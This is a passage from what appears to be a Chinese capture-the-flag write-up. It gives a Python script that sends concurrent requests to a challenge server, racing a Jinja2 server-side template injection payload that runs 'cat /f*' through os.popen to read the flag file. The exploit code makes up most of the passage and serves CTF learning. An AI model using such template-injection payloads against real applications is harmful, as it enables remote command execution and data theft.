 写一个脚本来并发这三个包

```python
import requests
from concurrent.futures import ThreadPoolExecutor

# 定义要发送的请求
def send_post_request(data):
    url = "http://node1.hgame.vidar.club:30834/app/send"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Referer": "http://node1.hgame.vidar.club:30834/app/index",
        "Connection": "keep-alive"
    }
    
    response = requests.post(url, headers=headers, data=data)
    print(f"Response: {response.status_code}, Content: {response.text}")

def send_get_request():
    url = "http://node1.hgame.vidar.club:30834/app/read"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Connection": "keep-alive"
    }
    
    response = requests.get(url, headers=headers)
    print(f"GET Response: {response.status_code}, Content: {response.text}")

# 定义要发送的消息
data1 = "message=123"
data2 = "message={{lipsum.__globals__.get('os').popen('cat /f*').read()}}"

# 使用线程池并发发送请求
with ThreadPoolExecutor(max_workers=3) as executor:
    executor.submit(send_post_request, data1)
    executor.submit(send_post_request, data2)
    executor.submit(send_get_request)
```

多尝试几次就可以得到flag



## Reverse

### Compress dot new
